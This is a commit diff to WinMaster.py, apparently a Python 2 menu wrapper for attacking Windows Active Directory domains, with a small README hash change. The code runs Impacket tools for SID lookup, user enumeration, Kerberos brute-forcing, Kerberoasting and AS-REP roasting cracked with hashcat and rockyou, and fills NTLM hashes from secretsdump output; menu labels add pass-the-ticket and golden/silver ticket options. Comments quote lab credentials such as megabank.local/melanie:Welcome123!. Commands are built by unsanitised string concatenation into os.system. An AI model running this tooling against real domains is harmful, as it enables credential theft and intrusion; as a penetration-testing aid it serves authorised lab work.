

Updates

diff --git a/WinMaster.py b/WinMaster.py
@@ -148,11 +148,11 @@ def display():
    print colored(PA[3],'blue'),
    print u'\u2551'
 
-   print u'\u2551' + " FOREST NAME  " + u'\u2502',
+   print u'\u2551' + " NTLM HASH    " + u'\u2502',
    if FRST == "EMPTY              ":
-      print colored(FRST[:20],'yellow'),
+      print colored(FRST[:19],'yellow'),
    else:
-      print colored(FRST[:20],'blue'),
+      print colored(FRST[:19],'red'),
    print u'\u2551',
    print colored(SH4,'blue'),
    print colored(SHA4,'blue'),
@@ -174,11 +174,11 @@ def display():
    print colored(PA[5],'blue'),
    print u'\u2551'
 
-   print u'\u2551' + " WORKGROUP    " + u'\u2502',
+   print u'\u2551' + " DOMAIN SID   " + u'\u2502',
    if WGRP == "EMPTY              ":
-      print colored(WGRP[:20],'yellow'),
+      print colored(WGRP[:19],'yellow'),
    else:
-      print colored(WGRP[:20],'blue'),
+      print colored(WGRP[:19],'red'),
    print u'\u2551',
    print colored(SH6,'blue'),
    print colored(SHA6,'blue'),
@@ -259,20 +259,20 @@ def display():
 
 # ----------------------------------------------------------------------------------------------------------------------------------------------------
 
-   print u'\u2551' + "(0) Save/Exit          (10) Re/Set WIN COMMAND (20) GetArch  (30) Enum4Linux     (40) TGT Creation    (50) Domain Dump  (60) FTP    " + u'\u2551'
-   print u'\u2551' + "(1) Re/Set DNS SERVER  (11) Re/Set CLOCK TIME  (21) NetView  (31) WinDapSearch   (41) TGT IMPERSONATE (51) BLOODHOUND   (61) SSH    " + u'\u2551'
-   print u'\u2551' + "(2) Re/Set REMOTE IP   (12) Re/Set DIRECTORY   (22) Services (32) LookupSid      (42) PAC IMPERSONATE (52) ACLPWN       (62) TelNet " + u'\u2551'
-   print u'\u2551' + "(3) Re/Set USERNAME    (13) Check Connection   (23) AtExec   (33) SamDump Users  (43) GOLDEN PAC      (53) SecretsDump  (63) NetCat " + u'\u2551'
-   print u'\u2551' + "(4) Re/Set PASSWORD    (14) Check DNS Records  (24) DcomExec (34) RpcDump        (44)                 (54) CrackMapExec (64) WinRem " + u'\u2551'
-   print u'\u2551' + "(5) Re/Set FOREST NAME (15) Check DNS SERVER   (25) PsExec   (35) REGistery      (45) UserMailAddress (55) WmiExec HASH (65)        " + u'\u2551'
-   print u'\u2551' + "(6) Re/Set DOMAIN NAME (16) Nmap O/S + Skew    (26) SmbExec  (36) SmbClient      (46) KerbeFiltUsers  (56)              (66)        " + u'\u2551'
-   print u'\u2551' + "(7) Re/Set WORK GROUP  (17) Nmap Subdomains    (27) WmiExec  (37) SmbMap SHARE   (47) KerbeStatUsers  (57)              (67)        " + u'\u2551'
-   print u'\u2551' + "(8) Re/Set SHARE NAME  (18) Nmap Intense TCP   (28) IfMap    (38) SmbMount SHARE (48) KerbeRoasting   (58)              (68)        " + u'\u2551'
-   print u'\u2551' + "(9) Re/Set IMPERSONATE (19) Nmap Slow and Full (29) OpDump   (39) Rpc Client     (49) KerbeASREPRoast (59)              (69)        " + u'\u2551'
+   print u'\u2551' + "(0) Save/Exit          (10) Re/Set WIN COMMAND (20) Get Arch (30) Enum 4 Linux   (40) Kerb Addresses  (50) Domain Dump  (60) FTP    " + u'\u2551'
+   print u'\u2551' + "(1) Re/Set DNS SERVER  (11) Re/Set CLOCK TIME  (21) Net View (31) WinDap Search  (41) Kerb Filter     (51) BLOODHOUND   (61) SSH    " + u'\u2551'
+   print u'\u2551' + "(2) Re/Set REMOTE IP   (12) Re/Set DIRECTORY   (22) Services (32) Lookup Sids    (42) Kerb Bruteforce (52) ACLPWN       (62) TelNet " + u'\u2551'
+   print u'\u2551' + "(3) Re/Set USERNAME    (13) Check Connection   (23) AtExec   (33) SamDump Users  (43) Kerb Roasting   (53) Secrets Dump (63) NetCat " + u'\u2551'
+   print u'\u2551' + "(4) Re/Set PASSWORD    (14) Check DNS Records  (24) DcomExec (34) RpcDump        (44) Kerb ASREPRoast (54) CrackMapExec (64) WinRem " + u'\u2551'
+   print u'\u2551' + "(5) Re/Set NTLM HASH   (15) Check DNS SERVER   (25) PsExec   (35) REGistery      (45)                 (55) WmiExec HASH (65)        " + u'\u2551'
+   print u'\u2551' + "(6) Re/Set DOMAIN NAME (16) Nmap O/S + Skew    (26) SmbExec  (36) Smb Client     (46) Pass-the-Key    (56)              (66)        " + u'\u2551'
+   print u'\u2551' + "(7) Re/Set DOMAIN SID  (17) Nmap Subdomains    (27) WmiExec  (37) SmbMap SHARE   (47) Pass-the-Ticket (57)              (67)        " + u'\u2551'
+   print u'\u2551' + "(8) Re/Set SHARE NAME  (18) Nmap Intense TCP   (28) IfMap    (38) SmbMount SHARE (48) Silver Ticket   (58)              (68)        " + u'\u2551'
+   print u'\u2551' + "(9) Re/Set IMPERSONATE (19) Nmap Slow and Full (29) OpDump   (39) Rpc Client     (49) Gold Ticket     (59)              (69)        " + u'\u2551'
    print u'\u255A' + (u'\u2550')*132 + u'\u255D'
 
 # -------------------------------------------------------------------------------------
-# AUTHOR  : Terence Broadbent                                                    
+# AUTHOR  : Terence BroadbentAdres                                                    
 # CONTRACT: GitHub
 # Version : 1.0                                                                
 # Details : Display universal header.
@@ -391,9 +391,9 @@ if not os.path.exists('config.txt'):
    TIP  = "EMPTY              " # REMOTE IP
    USR  = '""                 ' # USERNAME
    PAS  = '""                 ' # PASSWORD       
-   FRST = "EMPTY              " # FOREST NAME    
+   FRST = "EMPTY              " # NTML HASH
    HST  = "EMPTY              " # DOMAIN NAME
-   WGRP = "EMPTY              " # WORK GROUP
+   WGRP = "EMPTY              " # DOMAIN SID
    HIP  = "EMPTY              " # CURRENT SHARE
    POR  = "Administrator      " # IMPERSONATE
    PRM  = "'dir -FORCE'       " # WIN COMMAND                                            
@@ -418,9 +418,11 @@ else:
    TIP  = padding(TIP,  COL1)
    USR  = padding(USR,  COL1)
    PAS  = padding(PAS,  COL1)
-   FRST = padding(FRST, COL1)
+   if FRST[:5] == "EMPTY":
+      FRST = padding(FRST, COL1)
    HST  = padding(HST,  COL1)
-   WGRP = padding(WGRP, COL1)
+   if WGRP[:5] == "EMPTY":
+       WGRP = padding(WGRP, COL1)
    HIP  = padding(HIP,  COL1)
    POR  = padding(POR,  COL1)
    PRM  = padding(PRM,  COL1)
@@ -468,9 +470,9 @@ while True:
          os.system("echo '\"\"' >> config.txt")
       else:
          os.system("echo " + PAS  + " >> config.txt")
-      os.system("echo " + FRST + " >> config.txt") 
+      os.system("echo " + FRST.rstrip("\n") + " >> config.txt") 
       os.system("echo " + HST  + " >> config.txt")  
-      os.system("echo " + WGRP + " >> config.txt") 
+      os.system("echo " + WGRP.rstrip("\n") + " >> config.txt")
       os.system("echo " + HIP  + " >> config.txt")  
       os.system("echo " + POR  + " >> config.txt")  
       tmp = '\"' + PRM.rstrip(" ") + '\"'
@@ -533,6 +535,10 @@ while True:
          USR = BAK      
       else:
          USR = padding(USR, COL1)
+      
+      for a in range(0, MAX):
+         if US[a].rstrip(" ") == USR.rstrip(" "):
+            FRST = PA[a]	# UPDATE HASH VALUE TO MATCH USER
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -560,11 +566,9 @@ while True:
 
    if selection == '5':
       BAK = FRST
-      FRST = raw_input("Please enter FOREST name: ")
+      FRST = raw_input("Please enter HASH value: ")
       if FRST == "":
          FRST = BAK      
-      else:
-         FRST = padding(FRST, COL1)
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -599,11 +603,9 @@ while True:
 
    if selection == '7':
       BAK = WGRP
-      WGRP = raw_input("Please enter WORKGROUP name: ")
+      WGRP = raw_input("Please enter DOMAIN SID value: ")
       if WGRP == "":
          WGRP = BAK      
-      else:
-         WGRP = padding(WGRP, COL1)
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -1003,7 +1005,13 @@ while True:
 # -------------------------------------------------------------------------------------
 
    if selection =='32':
-      command(PRO + "lookupsid.py " + USR.rstrip(" ") + ":" + PAS.rstrip(" ") + "@" + TIP.rstrip(" "))
+      os.system(PRO + "lookupsid.py " + USR.rstrip(" ") + ":" + PAS.rstrip(" ") + "@" + TIP.rstrip(" ") + " >> DOMAIN.tmp")
+      command("cat DOMAIN.tmp")
+      os.system("cat DOMAIN.tmp | grep 'Domain SID' >> SID.tmp")
+      os.remove("DOMAIN.tmp")
+      DOMSID = linecache.getline("SID.tmp", 1)
+      os.remove("SID.tmp")
+      WGRP = DOMSID.replace('[*] Domain SID is: ',"")
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -1114,67 +1122,11 @@ while True:
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
 # Version : 1.0
-# Details : Menu option selected - getTGT.py DOMAIN/USER:PASSWORD
-# Modified: N/A
-# -------------------------------------------------------------------------------------
-
-   if selection == '40':
-      command(PRO + "getTGT.py " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + ":" + PAS.rstrip(" "))
-
-# ------------------------------------------------------------------------------------- 
-# AUTHOR  : Terence Broadbent                                                    
-# CONTRACT: GitHub
-# Version : 1.0
-# Details : Menu option selected - getST.py -impersonate Administrator -spn cifs/megabank.local megabank.local/melanie:Welcome123!
-# Modified: N/A
-# -------------------------------------------------------------------------------------
-
-   if selection == '41':
-      temp = USR.rstrip(" ") + ".ccache"
-      command(PRO + "getST.py -spn " + temp + " -impersonate " + POR.rstrip(" ") + " " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + ":" + PAS.rstrip(" "))
-
-# ------------------------------------------------------------------------------------- 
-# AUTHOR  : Terence Broadbent                                                    
-# CONTRACT: GitHub
-# Version : 1.0
-# Details : Menu option selected - getPac.py -targetUser Administrator htb.local/svc-alfresco:s3rvice
-# Modified: N/A
-# -------------------------------------------------------------------------------------
-
-   if selection == '42':
-      command(PRO + "getPac.py -targetUser " + POR.rstrip(" ") + " " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + ":" + PAS.rstrip(" "))
-
-# ------------------------------------------------------------------------------------- 
-# AUTHOR  : Terence Broadbent                                                    
-# CONTRACT: GitHub
-# Version : 1.0
-# Details : Menu option selected - goldenPac.py -dc-ip 10.10.10.161 -target-ip 10.10.10.161 htb.local/svc-alfresco:s3rvice@htb.local
-# Modified: N/A
-# -------------------------------------------------------------------------------------
-
-   if selection == '43':
-      command(PRO + "goldenPac.py -dc-ip " + TIP.rstrip(" ") + " -target-ip " + TIP.rstrip(" ") + " " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + ":" + PAS.rstrip(" ") + "@" + HST.rstrip(" "))
-
-# ------------------------------------------------------------------------------------- 
-# AUTHOR  : Terence Broadbent                                                    
-# CONTRACT: GitHub
-# Version : 1.0
-# Details : Menu option selected - 
-# Modified: N/A
-# -------------------------------------------------------------------------------------
-
-   if selection =='44':
-      exit(1)
-
-# ------------------------------------------------------------------------------------- 
-# AUTHOR  : Terence Broadbent                                                    
-# CONTRACT: GitHub
-# Version : 1.0
 # Details : Menu option selected - GetADUsers.py megabank.local/ryan:Serv3r4Admin4cc123! 
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '45':
+   if selection == '40':
       command(PRO + "GetADUsers.py " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + ":" + PAS.rstrip(" "))
 
 # ------------------------------------------------------------------------------------- 
@@ -1185,7 +1137,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '46':
+   if selection == '41':
       print "\nPlease wait..."
       os.system("nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=" + HST.rstrip(" ") + ",userdb=users.txt " + TIP.rstrip(" ") + " >> KUSERS.tmp")
       os.system("sed -i '/@/!d' KUSERS.tmp")
@@ -1224,7 +1176,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection =='47':
+   if selection =='42':
       command(PRO + "kerbrute.py -domain " + HST.rstrip(" ") + " -users users.txt -passwords /usr/share/wordlists/rockyou.txt")
 
 # ------------------------------------------------------------------------------------- 
@@ -1235,7 +1187,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '48':
+   if selection == '43':
       if linecache.getline('users.txt', 1) != "":
          command(PRO + "GetUserSPNs.py " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + ":" + PAS.rstrip(" ") + " -outputfile hashes.kerberoast")
          command("hashcat -m 13100 --force -a 0 hashes.kerberoast /usr/share/wordlists/rockyou.txt -o cracked.txt")
@@ -1251,13 +1203,68 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection =='49':
+   if selection =='44':
       if linecache.getline('users.txt', 1) != "":
          command(PRO + "GetNPUsers.py -outputfile hashroast.txt -format hashcat " + HST.rstrip(" ") + "/ -usersfile users.txt")
          command("hashcat -m 18200 --force -a 0 hashroast.txt /usr/share/wordlists/rockyou.txt -o cracked.txt")
          command("strings cracked.txt")
       else:
-         command("echo 'The file users.txt is empty?...'")      
+         command("echo 'The file users.txt is empty?...'")   
+
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : 1.0
+# Details : Menu option selected - getTGT.py DOMAIN/USER:PASSWORD
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection == '45':
+      exit(1) 
+
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : 1.0
+# Details : Menu option selected - 
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection == '46':
+      exit(1)
+
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : 1.0
+# Details : Menu option selected - getST.py -impersonate Administrator -spn cifs/megabank.local megabank.local/melanie:Welcome123!
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection == '47':
+      exit(1)      
+
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : 1.0
+# Details : Menu option selected - 
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection == '48':
+      exit(1)
+
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : 1.0
+# Details : Menu option selected - 
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection == '49':
+      exit(1)
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -1319,12 +1326,17 @@ while True:
          temp = HST.rstrip(" ") + "\\"
          test = test.replace(temp,"")
          get1,get2,get3,get4 = test.split(":")
-         get1 = padding(get1,COL3) # USER
-         get4 = padding(get4,COL4) # PASSWORD
+         get1 = padding(get1,COL3) 	# USER
+         get4 = padding(get4,COL4) 	# PASSWORD
 
          for y in range (0, MAX):
             if US[y] == get1:
                PA[y] = get4
+
+      for z in range(0, MAX):
+         if US[z].rstrip(" ") == USR.rstrip(" "):
+            FRST = PA[z]		# HASH 
+#          FRST = FRST.rstrip("\n","")
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    

diff --git a/README.md b/README.md
@@ -5,7 +5,7 @@ Usage: python WinMaster.py neo4j password
 
 | LANGUAGE  | FILENAME         | MD5 Hash                         |
 |------     |------            | -------                          |
-| python    | WinMaster.py     | 88d0d7a206a4fa9b778f965baa9c0357 |
+| python    | WinMaster.py     | 38524a50f1a06635264308855b641e79 |
 | text file | config.txt       | fbc9f46c8be696a9a40207999d013ede |
 | bash file | shell.txt        | bace3193abb905876c00e082fc94d550 |
 
